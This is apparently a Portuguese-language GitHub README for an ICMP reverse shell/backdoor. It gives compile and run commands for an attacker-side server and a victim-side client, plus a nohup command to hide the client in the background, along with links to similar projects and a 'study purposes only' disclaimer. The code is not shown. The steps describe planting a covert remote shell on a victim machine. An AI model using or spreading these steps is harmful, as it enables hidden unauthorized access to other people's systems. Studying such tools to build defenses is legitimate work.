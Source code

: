 # Reverse-Shell

# ICMP REVERSE SHELL / BACKDOOR

Olá, espero que você esteja bem, este projeto é sobre shell reverso usando icmp, aqui está como ele pode ser usado:

# Uso

Primeiramente, compile-o em sua máquina


Atacante:
```bash
gcc servidor.c -o servidor -pthread
```

Vítima:
```bash
gcc cliente.c -o cliente -pthread
```

#### Para executar o servidor:

```bash
./servidor <ip>
```

#### Execute o cliente na máquina vítima

```bash
./cliente
```

Você pode usar o nohup para colocar o processo em segundo plano

```bash
nohup ./client &
```

### Reverse Shell é apenas para fins de estudo



## Referências

[ICMPSH](https://github.com/bdamele/icmpsh)

[ICMPSHELL](https://github.com/sin5678/icmp_shell)

[ICMPDOOR](https://github.com/krabelize/icmpdoor)
# Reverse-Shell
